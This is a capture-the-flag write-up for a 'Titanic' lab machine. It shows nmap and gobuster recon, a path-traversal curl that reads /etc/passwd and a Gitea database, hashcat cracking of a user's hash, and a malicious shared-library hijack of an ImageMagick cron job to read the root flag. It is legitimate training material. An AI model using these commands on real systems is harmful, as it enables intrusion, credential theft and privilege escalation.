

# Titanic Lab-Total time 3 days

---

## The first and half of second day I used to recon the machine and website and scripts to use, rest of second day and third i actively looked around the machine for the flags and scripts to use to escalate privileges.

### MARKED AS EASY BUT IT WAS NOT FOR SOMEONE WITH LIMITED KNOWLEDGE

First step was to run nmap scan

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Results:

.png)

I then ran port 80 scan to get more data on it

```bash
nmap -sV -p 80 10.10.11.55 -T5
```

.png)


I added the IP address to the host list

```bash
sudo nano /etc/hosts/
```

.png)


after doing that i ran gobuster scan with common wordlist

```bash
gobuster dir -u http://titanic.htb/ -w /usr/share/wordlists/dirb/common.txt
```

.png)


I visited the website and clicked around, i booked the ticket while checking browser web developer network section and noticed the the address that redirects to the download

.png)


After numerous types of research I found something called LFI (Local File Intrusion)

I researched common commands used with it and I used #curl

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

.png)


I recorded possible users like root, man, nobody, developer, _laurel

I then tried to check hosts

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/hosts"
```

Found a wildcard for the domain called dev.titanic.htb

.png)


.png)

I added the domain to the host list

.png)


And i ran gobuster again with the new domain added

.png)


I used curl to get data from admin, developer, administrator

and research showed that they are using gitea to host the site and found their repo

Upon reviewing the repo I found they were using #MYSQLas database

.png)


and their password

.png)


after researching how gitea sets up in a directory i tried with the previously recorded users which only developer worked.

```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

This saved the file with their whole database

I used

```bash
sqlite3 gitea.db
#once opened i ran.tables
```

.png)


I researched how to traverse database and tried multiple commands until i found the working one related to users

```bash
SELECT * FROM user;
```

This showed me the hashed credentials for users

.png)


Since we were working in developer i saved developer’s hash in a hash.txt file

I used AI translate the developer hash into sha256 I then used #hashcat

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile cracked.txt
```

This process took around 2-3 hours I successfully got access to the password for developer

.png)


developer:[REDACTED]


using ls i found file named user.txt which contained the flag for user




After several minutes traversing around and looking around for root flag i found the root.txt file in tmp folder but i also figured out that developer did not have sudo power but in my search i found an interesting file that is running a script using magick, after investigating further I found out that Imagemagick was used to escalate privilages and did more research

.png)


Researching around i found a script that was used with magick i just modified the directories i needed

```bash
cd /tmp
gcc -shared -fPIC -o libxcb.so.1 -x c - << 'EOF'#include <stdlib.h>__attribute__((constructor)) void init() {    system("cp /root/root.txt /tmp/root.txt; chmod 644 /tmp/root.txt;");}EOF
```

This command compiles a C program into a shared object (library) named libxcb.so.1.

- **shared**: Instructs gcc to create a shared library (a .so file) rather than an executable.
- **fPIC**: Generates position-independent code, which is required for shared libraries to work correctly across different memory addresses.
- **o libxcb.so.1**: Specifies the output file name as libxcb.so.1.
- **x c**: Tells gcc to treat the input as C code, even though it’s not read from a file with a .c extension.
- **<< ‘EOF’**: Uses a here-document to provide the C code directly from the command line, ending when EOF is encountered.

```bash
mv /tmp/libxcb.so.1 /opt/app/static/assets/images/
```

Moves the compiled libxcb.so.1 from /tmp to /opt/app/static/assets/images/, the working directory of the identify_images.sh script.

By placing libxcb.so.1 in /opt/app/static/assets/images/, you increase the likelihood that ImageMagick loads our malicious library instead of the legitimate libxcb.so.1, triggering the payload.

```bash
cat /etc/crontab
```

Checking /etc/crontab (and possibly /etc/cron.*/*) helps confirm whether identify_images.sh is scheduled to run automatically as root via a cron job. For example, a line like */5*  * * * root /opt/scripts/identify_images.sh would indicate the script runs every 5 minutes as root.

```bash
cat /tmp/root.txt
```

Successfully obtained root flag
